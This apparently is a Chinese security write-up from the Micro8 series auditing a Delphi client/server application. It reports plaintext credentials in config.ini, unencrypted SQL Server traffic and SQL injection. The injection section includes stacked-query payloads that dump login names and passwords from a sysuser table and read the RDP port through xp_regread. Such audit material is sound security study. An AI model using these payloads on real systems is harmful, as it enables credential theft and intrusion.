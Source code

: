 ```yaml
---
title: 3、Delphi代码审计--项目实战1
date: 2019-09-21 19:03:03
comments: true
categories: 
 - Micro8系列
---
```




### 1、Function & Procedure   

  Delphi 把操作数据的方法分成了两种，一种是 function，另一种是 procedure，大致理解为“函数”和“过程”。
 Procedure 类似 C 语言中的无返回值函数，即 VOID。而 Function 就是 C 语言中的有返回值函数，即没有 Void。  

![](../do/media/21e65a213b1774c59d03619cb69683b4.jpg)

### 2、连接数据库  

程序分为两种连接数据库模式：  

![](../do/media/080d91e0679721483224a0d29b818c61.jpg)

无论是本地模式，还是联网模式，都是读取，当前路径的 config.ini 配置文件：  
<font color=red> （导致敏感信息暴漏，可直连服务器） </font>

![](../do/media/00335e7c032c10d239df4a1c64a1543e.jpg)

继续跟数据库连接：配合SQL Server数据库，直接带入，可以判断出为明文存储。  

![](../do/media/f0281f9b417bfcff8962a51f84f410b3.jpg)

### 3、config.ini

config.ini 配置如下：  

![](../do/media/7a7ab42ea759160c062a56d2c4f1cc88.jpg)

### 4、C/S 交互过程

基于TCP通信，SQL Server通信构架大致如下：
<font color=red> （可导致通信过程中抓取明文执行） </font>

![](../do/media/109415886494f35eb1abb0dc65e1ea4a.jpg)

### 5、SQL 注入

代入执行：<font color=red>（导致可拼接sql语句，查询任意语句或者执行命令）</font>

![](../do/media/f2d2fa55ca7000f6ac4e2a7f35096223.jpg)  

![](../do/media/9c7cde20e5b9f00367d3e9e6742795bd.jpg)

部分语句其中如下：
```sql
select distinct memberid,receivecompany
from weigh where receivecompany is not null and receivecompany like ''%'+xxxxxx+'%''
```
### 6、Client  

软件呈现如下：  

![](../do/media/fb920104b40786b665ab4f54efcc7f45.jpg)

### 7、构造 SQL 语句

对应收货单位编号，以及收货单位名称。分别为：`memberid`, `receivecompany`。闭合语句为：  

```sql
2' ; select loginid as memberid , password as receivecompany from sysuser --
```  

![](../do/media/3fe1f0dff1f17524e03aa152e59172b2.jpg)

抓取返回如图：  

* 得到admin 账号以及密码。  

![](../do/media/0832ba025e9189a7099cd2e4dc368152.jpg)

* 构造读取远程桌面端口号：得到远程服务器端口号  

```sql
2' ; EXEC master..xp_regread 'HKEY_LOCAL_MACHINE',
'SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp',
'PortNumber' --
```  

### 8、获取缓冲区内容

copy 获取缓冲区内容：<font color=red> （导致可从服务器端构造代码）</font>  

![](../do/media/12eae8dd1c87a5e9f14244f5c7b4eb70.jpg)

copy 用法如下：

> copy（a,b,c);  
>a：就是copy源，就是一个字符串，表示你将要从a里copy一些东西;  
>b：从a中的第b位开始copy（包含第11位）;  
>c：copy从第b位开始后的c个字符，  
>exp： m:=‘the test fuck'  
>      s：=copy（m,2,2）； //s值为‘he’

当超出范围，会发生异常错误。实例中，从服务器数据库获取数据后进行 copy。

软件登陆部分代码如下：<font color=red>（导致可自动化跑 loginid。）</font>    

![](../do/media/24734f4bbaa74f862cfbcac3b53faf83.jpg)

多次尝试错误处理如下：退出软件，并且重新开始计算。   
 
![](../do/media/4ec9526c01770e2d5f17c9cc9a76b26b.jpg)



<p align="right">--By  Micropoor </p>
